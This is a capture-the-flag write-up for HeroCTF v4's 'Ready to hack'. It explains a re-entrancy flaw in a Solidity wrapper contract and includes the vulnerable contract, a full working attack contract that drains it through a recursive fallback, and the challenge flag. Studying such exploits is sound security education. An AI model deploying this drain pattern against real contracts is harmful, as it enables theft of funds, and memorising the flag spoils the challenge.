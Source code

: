 ```yaml
---
title: Ready to hack
description: Solidity smart contract vulnerable to re entrancy
summary: Solidity smart contract vulnerable to re entrancy
date: 2022-05-30
tags:
- Blockchain
ctf:
- HeroCTF v4
draft: false
---
```


## Description

> Now that we're introduced, let's jump into it. This contract acts like a wrapper around $MEL.&nbsp; \
> We can't say it holds a gigantic amount of money, but it might be a kickstarter for you ! \
> Of course, the contract belongs to a malicious organization, which is why we're hacking it. \
> Don't hack legit organizations. \
> Empty the contract from it's money to get the flag.

## Resolution

We start with a Solitidy smart contract we can ask to deploy to an address on the custom Ethereum like blockchain of the CTF.

![](interface.png)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

/*
    This contract implements "WMEL" (Wrapped MEL). You get an ERC20 version of Melcoin where 1WMEL == 1MEL at all times.
    This is a beta version !
*/

// @dev : iHuggsy
contract WMEL
{
    mapping(address => uint) public balances;

    constructor () payable {}

    function deposit() external payable 
    {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public 
    {
        uint bal = balances[msg.sender];
        require(bal > 0);
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) 
    {
        return address(this).balance;
    }
}
```

We can deposit some ether with the `deposit` function and later retrieve it with the `withdraw` function.

The latter is supposed to make sure we can retrieve only the amount of ether we gave to the contract earlier by checking our balance. Our goal is to steal every single ether the contract has, which is all the ether the other people have stored here.

The contract is making its transaction to us **before** setting our balance to zero, which makes it vulnerable to the [SWC-107, the re entrancy](https://swcregistry.io/docs/SWC-107).

So, why is this a problem if the transaction that give us our ether back is done before setting our balance to zero exactly ? The issue is that if a transaction is made to another smart contract, it will pause the current execution of the calling contract and the receiver contract will start executing its fallback function.<br>
The fallback function of a smart contract is the function executed when the caller either:

- wants to execute a function that does not exist in the contract
- just makes a transaction without asking to execute a particular function

Because the calling contract will pause its execution until the called contract returns, the called contract's balance in the calling contract will not be set to zero immediately.

We can then create a smart contract to exploit this behavior with two functions:

- a payable function to begin the attack, that will call `deposit` on the vulnerable contract with the ether received, then call `withdraw`, I called it `beginAttack`
- a fallback function that just checks the balance of the vulnerable contract and call `withdraw` if it's not empty

I also added a `getStolenBalance` function just to check after the attack that the amount stolen is all here as it should.

Here is my smart contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./wmel.sol";

contract Attack {
    WMEL public victim;

    constructor(address _victimAddress) {
        victim = WMEL(_victimAddress);
    }

    function beginAttack() external payable {
        victim.deposit{value: 1 ether}();
        victim.withdraw();
    }

    function getStolenBalance() public view returns (uint) {
        return address(this).balance;
    }

    fallback() external payable {
        if (victim.getBalance() >= 1 ether) {
            victim.withdraw();
        }
    }
}
```

Deploy it, call its `beginAttack` function with a value of 1 ether, and you successfully emptied the balance of the vulnerable contract!<br>
I used Ethereum foundation's [Remix IDE](https://remix.ethereum.org/) for that.

![](begin_attack_call.png)

All that's left to do is to click on the verify button on the website and we get the flag.

Flag: `Hero{@M_A_m3l_sT34l3r_Am_v3rY_AngR}`